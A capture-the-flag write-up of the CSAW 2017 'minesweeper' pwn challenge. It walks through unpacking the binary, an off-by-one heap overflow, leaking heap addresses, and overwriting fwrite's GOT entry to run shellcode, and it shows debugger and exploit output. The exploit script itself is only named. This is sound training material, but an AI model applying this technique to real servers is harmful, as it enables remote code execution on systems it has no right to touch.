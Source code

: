 # minesweeper
## Pwn 500

#### direwolf 

Opening this in a disassembler initially doesn't show us much - no xrefs, no strings, few functions, etc. Additionally, running `file` shows that it's a stripped binary with no additional details. Running a quick xxd on the header shows us why -- the binary is UPX packed.

![xxd](img/xxd.png)

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> upx -d minesweeper_packed
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2013
    UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

        File size         Ratio      Format      Name

     13132 <-      7936   60.43%  netbsd/elf386  minesweeper_packed

    Unpacked 1 file.
    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>>

With that out of the way, we can get started.

This binary is a forking server listening on 31337. It provides a menu where we can start a new game, intiialize a board, or quit. To start, let's see what happens when we play a new game and view the board.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> nc localhost 31337

    Hi. Welcome to Minesweeper. Please select an option:
    1) N (New Game)
    2) Initialize Game(I)
    3) Q (Quit)
    n
    Welcome. The board has been initialized to have a random *mine*placed in the midst. Your job is to uncover it. You can:
    1) View Board (V)
    2) Uncover a location (U X Y). Zero indexed.
    3) Quit game (Q)
    v
    OOOOO
    OOOOO
    OOOXO
    OOOOO
    OOOOO
    v


    i~�
    �x�






    +���

    ؎
    ����

We see that this shows a default game board and sprays some extra bytes back at us too (this is useful later). From here, we can try to play the game (but I never actually got it to work). 

The other option is to initialize our own board.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> nc localhost 31337

    Hi. Welcome to Minesweeper. Please select an option:
    1) N (New Game)
    2) Initialize Game(I)
    3) Q (Quit)
    i
    Please enter in the dimensions of the board you would like to set in this format: B X Y
    B 10 10
    HI THERE!!
      +---------------------------+---------------------------+
      |      __________________   |                           |
      |  ==c(______(o(______(_()  | |''''''''''''|======[***  |
      |             )=\           | |  EXPLOIT   \            |
      |            / \            | |_____________\_______    |
      |           /   \           | |==[--- >]============\   |
      |          /     \          | |______________________\  |
      |         / RECON \         | \(@)(@)(@)(@)(@)(@)(@)/   |
      |        /         \        |  *********************    |
      +---------------------------+---------------------------+
                                                               
    IIIIII    dTb.dTb        _.---._       
      II     4'  v  'B   ."""" /|\`."""". 
      II     6.     .P  :  .' / | \ `.  : 
      II     'T;. .;P'  '.'  /  |  \  `.' 
      II      'T; ;P'    `. /   |   \ .'  
    IIIIII     'YvP'       `-.__|__.-'     
    -msf                                   
    Please send the string used to initialize the board. Please send X * Y bytes follow by a newlineHave atleast 1 mine placed in your board, marked by the character X

At this point, the server prints a debug statement:

    Allocated buffer of size: 81

This is obviously an off-by-one issue where, instead of allocated 10\*10 bytes, the server has allocated 9\*9. This sounds like a decent overflow candidate and can be verified by connecting gdb, sending 100 bytes (with the mandatory 'X' character) and catching the segfault. I used a pwntools `cyclic()` for this.

    [----------------------------------registers-----------------------------------]
    EAX: 0x61617761 ('awaa')
    EBX: 0x0
    ECX: 0x4
    EDX: 0x61617861 ('axaa')
    ESI: 0x1
    EDI: 0xf778f000 --> 0x1b5db0
    EBP: 0xffeb8df8 --> 0xffeb8e38 --> 0xffeb8e88 --> 0xffeb8ed8 --> 0xffeb8ef8 --> 0xffeb8f48 (--> ...)
    ESP: 0xffeb8de0 --> 0x0
    EIP: 0x8049855 (mov    DWORD PTR [eax+0x8],edx)
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x804984c:	mov    eax,DWORD PTR [ebp+0x8]
       0x804984f:	mov    eax,DWORD PTR [eax+0x4]
       0x8049852:	mov    edx,DWORD PTR [ebp-0xc]
    => 0x8049855:	mov    DWORD PTR [eax+0x8],edx
       0x8049858:	mov    eax,DWORD PTR [ebp+0x8]
       0x804985b:	mov    eax,DWORD PTR [eax+0x8]
       0x804985e:	mov    edx,DWORD PTR [ebp-0x10]
       0x8049861:	mov    DWORD PTR [eax+0x4],edx
    [------------------------------------stack-------------------------------------]
    0000| 0xffeb8de0 --> 0x0
    0004| 0xffeb8de4 --> 0xf778f000 --> 0x1b5db0
    0008| 0xffeb8de8 ("awaaaxaa\004")
    0012| 0xffeb8dec ("axaa\004")
    0016| 0xffeb8df0 --> 0x4
    0020| 0xffeb8df4 --> 0x9c5d024 ("Xaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaa\022")
    0024| 0xffeb8df8 --> 0xffeb8e38 --> 0xffeb8e88 --> 0xffeb8ed8 --> 0xffeb8ef8 --> 0xffeb8f48 (--> ...)
    0028| 0xffeb8dfc --> 0x80499ea (add    esp,0x10)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x08049855 in ?? ()
    gdb-peda$

As we see here, we have an arbitrary write to the address at eax+0x8. Time to check our memory map.

    gdb-peda$ vmmap
    Start      End        Perm	Name
    0x08048000 0x0804b000 r-xp	/mnt/hgfs/VMShare/ShellCollectingClub/CSAW2017/minesweeper/minesweeper
    0x0804b000 0x0804c000 rwxp	/mnt/hgfs/VMShare/ShellCollectingClub/CSAW2017/minesweeper/minesweeper
    0x09c5d000 0x09c5e000 rwxp	[heap]
    0xf75d9000 0xf778d000 r-xp	/lib/i386-linux-gnu/libc-2.24.so
    0xf778d000 0xf778f000 r-xp	/lib/i386-linux-gnu/libc-2.24.so
    0xf778f000 0xf7790000 rwxp	/lib/i386-linux-gnu/libc-2.24.so
    0xf7790000 0xf7793000 rwxp	mapped
    0xf77bb000 0xf77be000 rwxp	mapped
    0xf77be000 0xf77c0000 r--p	[vvar]
    0xf77c0000 0xf77c2000 r-xp	[vdso]
    0xf77c2000 0xf77e5000 r-xp	/lib/i386-linux-gnu/ld-2.24.so
    0xf77e5000 0xf77e6000 r-xp	/lib/i386-linux-gnu/ld-2.24.so
    0xf77e6000 0xf77e7000 rwxp	/lib/i386-linux-gnu/ld-2.24.so
    0xffe99000 0xffeba000 rwxp	[stack]
    gdb-peda$

Lots of joy with rwx stack and heap (which we can also verify with peda's nxtest if we really want to). We can then use peda's searchmem function to find our cyclic pattern in memory, which shows us that our buffer is on the heap (reenforced by the message showing that the server just allocated us some memory. 

Given that the heap is executable and the server lets us send an arbitrary buffer of up to `n` bytes, this seems like a great place to store some shellcode and return. Assuming that ASLR is on (which I didn't actually test but seemed like a solid assumption based on other challenges this competition), we need a memory leak. This is where the ability to View the board comes in.

Starting a new session and viewing the board again - we can inspect the extra memory that was thrown back at us for any addresses that jump out. Since this is a new session, we only see stack addresses. On a hunch, I allocated a new initial board and viewed it, this time yielding some heap addresses which give us a constant offset to our buffer. Success! 

![heap bytes](img/heap_bytes.png)

The next challenge is finding a candidate to write too. Luckily, from parsing the disassembly, we find a call to fwrite shortly after our input is written to the buffer ("Delinked!"). So, we overwrite fwrite's GOT with the address to our heap buffer and get code exec!

From here, I upped the buffer size to make some more room for shellcode. There were also some issues where additional board data was written to the buffer afterward which would mangle our shellcode. While I'm sure there is a smarter, more precise solution, I did a `read` syscall to a later position in our buffer (shellcraft is great) to write unmangled shellcode, then did a relative jump to that with a `cat flag` to win.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> ./win.py 
    [*] '~/ShellCollectingClub/CSAW2017/minesweeper/minesweeper'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [*] Loaded cached gadgets for './minesweeper'
    [+] Opening connection to pwn.chal.csaw.io on port 7478: Done
    leaking some heap:
    Heap is: 0x93740f0
    Target is: 0x9374100
    [*] Switching to interactive mode

    flag{h3aps4r3fun351eabf3}

Overall, relatively straightforward for a 500pt challenge. See win.py for our solution!
